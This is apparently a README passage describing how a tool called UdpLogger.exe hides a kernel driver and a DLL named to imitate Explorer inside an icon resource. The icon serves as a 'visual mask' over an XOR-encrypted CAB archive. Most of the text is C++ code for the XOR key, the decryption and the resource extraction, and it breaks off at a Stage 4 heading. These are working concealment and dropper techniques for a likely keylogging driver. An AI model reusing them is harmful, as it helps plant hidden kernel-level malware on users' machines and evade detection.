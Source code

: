 The final UdpLogger.exe embeds both kvckbd.sys and ExpIorerFrame.dll using steganography with CAB compression, achieving exceptional size efficiency (~18 KB total).

**Structure:**

```
IDR_MAINICON Resource (RT_RCDATA) - Total: ~18 KB
├── [0x0000 - 0x067E]  Valid ICO file (1,662 bytes) - Visual mask
└── [0x067E - EOF]     XOR-Encrypted CAB Archive
    └── XOR Key: 0xA0 0xE2 0x80 0x8B 0xE2 0x80 0x8C
        └── CAB Contents: kvc.bin (concatenated PE files)
            ├── kvckbd.sys      (Kernel driver - subsystem 1)
            └── ExpIorerFrame.dll (Usermode library - subsystem 2)
```

**Encryption:**

Files are XOR-encrypted with a 7-byte key before CAB compression:

```cpp
static constexpr std::array<BYTE, 7> XOR_KEY = { 
    0xA0, 0xE2, 0x80, 0x8B, 0xE2, 0x80, 0x8C 
};

void XorDecrypt(BYTE* data, size_t size) noexcept {
    for (size_t i = 0; i < size; ++i) {
        data[i] ^= XOR_KEY[i % XOR_KEY.size()];
    }
}
```

**Extraction Process** (`ResourceExtractor.cpp`):

**Stage 1: Resource Loading** (Lines 269-283)
```cpp
// Load embedded resource from executable
HRSRC hRes = FindResourceW(hInstance, MAKEINTRESOURCEW(IDR_MAINICON), RT_RCDATA);
HGLOBAL hResData = LoadResource(hInstance, hRes);
DWORD resSize = SizeofResource(hInstance, hRes);
const BYTE* resData = static_cast<const BYTE*>(LockResource(hResData));
```

**Stage 2: Icon Skipping** (Lines 285-292)
```cpp
// Skip ICO header and image data (first 1662 bytes)
const size_t ICON_SIZE = 1662;
std::vector<BYTE> encryptedCab(resData + ICON_SIZE, resData + resSize);
```

**Stage 3: XOR Decryption** (Lines 294-295)
```cpp
// Decrypt CAB archive in memory
XorDecrypt(encryptedCab.data(), encryptedCab.size());
// Expected signature after decrypt: 4D 53 43 46 (MSCF - CAB magic)
```

**Stage 4: In-Memory CAB Decompression** (Lines 123-183)

